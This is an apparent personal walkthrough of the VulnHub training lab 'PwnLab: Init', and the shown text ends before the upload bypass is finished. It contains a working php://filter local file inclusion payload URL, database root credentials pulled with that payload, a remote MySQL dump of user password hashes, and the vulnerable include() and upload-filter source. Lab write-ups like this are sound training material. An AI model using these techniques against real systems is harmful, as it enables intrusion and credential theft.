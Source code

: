 # PwnLab: Init

https://www.vulnhub.com/entry/pwnlab-init,158/

Another lab taken from [abatchy's list](https://www.abatchy.com/2017/02/oscp-like-vulnhub-vms) of OSCP-like vulnhub instances.

## Port Recon

An all port scan gives:

```
kali@kali:~$ nmap -p- 192.168.1.70
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-29 01:13 EDT
Nmap scan report for 192.168.1.70
Host is up (0.016s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
3306/tcp  open  mysql
59496/tcp open  unknown
```

MySql and ssh both require creds. The rcpbind instance, when scanned more deeply, reveals nothing but rcpbind and 'status' listening on a variety of ports, including that 59496 port. At this stage, this means the only port of instance is 80.

## 'PwnLab Intranet Image hosting'

The website is a a simple site that allows image uploading for logged in users. A dirb, nikto, wfuzz all reveal:

- four apparent pages: index.php, login.php, upload.php and config.php. The last doesn't render anything, but does reveal a 200 code if visited.
- two directories that are listable: /upload/ and /images/ (the latter hosts the site's banner)

Importantly, the base page doesn't actually link to the others; instead it uses a `?page=` query string parameter that appears to load the other page content. I tried various attempted LFI techniques (local file inclusion) but none worked.

## A hint

I was stuck at this point. I don't like going for hints, but if I can't make any headway I go and skim someone elses walkthrough, or ask a friend. Typically its useful as I am new at this, and there is a lot I know I don't know and which I won't be able to figure out regardless of how much I bang my head against it. So, as long as I have had a good go at it, I view looking for a hint as being a learning opportunity.

It definitely was in this case; I wouldn't have guessed you can use a php filter with a LFI opportunity:

1. The use of ?page= indicates the core index page is loading the PHP from the indicated file and rendering it.
2. When dealing with LFI with PHP, there are a variety of techniques (e.g. documented here on [this nice medium post](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601))
3. After testing one or two, the one that worked was the use of a php filter with base 64 encoding.

Using a filter, when the site loaded the local resource (it would still only work with its local, defined resources), I could get it to output the base64 encoded content of the indicated reource, e.g. the config file:

`http://192.168.1.70/?page=php://filter/convert.base64-encode/resource=config` (rather than `?page=config`)

This prints the string on the page: `PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8+` which decodes to (I used burp decoder):

```
<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

These credentials will be useful in the next step.

Additionally, I can decode the relevant section of index.php to see how this all works:

```
if (isset($_GET['page']))
	{
		include($_GET['page'].".php");
	}
```

## MySql and login

I can use the credentials above to log into mysql remotely (`mysql -h <ip> -u root -p` plus the password from above). It contained a single table of note, containing the users for the site with encoded passwords:

```
MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |                                                                                                                                                                                                 
| mike | U0lmZHNURW42SQ== |                                                                                                                                                                                                 
| kane | aVN2NVltMkdSbw== |                                                                                                                                                                                                 
+------+------------------+                                                                                                                                                                                                 
3 rows in set (0.001 sec)       
```

The encoding is obviously base64, though I can determine this for sure using the trick above to get the login page source code:

```
$luser = $_POST['user'];
$lpass = base64_encode($_POST['pass']);

$stmt = $mysqli->prepare("SELECT * FROM users WHERE user=? AND pass=?");
```

Choosing kane (obviously, my Brotherhood of Nod allegience is strong), his password is decoded to `iSv5Ym2GRo`. I use this to log into the site.

## Bypassing the Image Uploader

After logging in, I can access the upload screen. An obvious first test is whether I can just upload a PHP shell, but it fails. Just renaming the shell also fails, so I grab the source from the upload page via the above technique:

```
 <?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
	<body>
		<form action='' method='post' enctype='multipart/form-data'>
			<input type='file' name='file' id='file' />
			<input type='submit' name='submit' value='Upload'/>
		</form>
	</body>
</html>
<?php 
if(isset($_POST['submit'])) {
	if ($_FILES['file']['error'] <= 0) {
		$filename  = $_FILES['file']['name'];
		$filetype  = $_FILES['file']['type'];
		$uploaddir = 'upload/';
		$file_ext  = strrchr($filename, '.');
		$imageinfo = getimagesize($_FILES['file']['tmp_name']);
		$whitelist = array(".jpg",".jpeg",".gif",".png"); 

		if (!(in_array($file_ext, $whitelist))) {
			die('Not allowed extension, please upload images only.');
		}

		if(strpos($filetype,'image') === false) {
			die('Error 001');
		}

		if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
			die('Error 002');
		}

		if(substr_count($filetype, '/')>1){
			die('Error 003');
		}

		$uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;

		if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
			echo "<img src=\"".$uploadfile."\"><br />";
		} else {
			die('Error 4');
		}
	}
}

?>
```
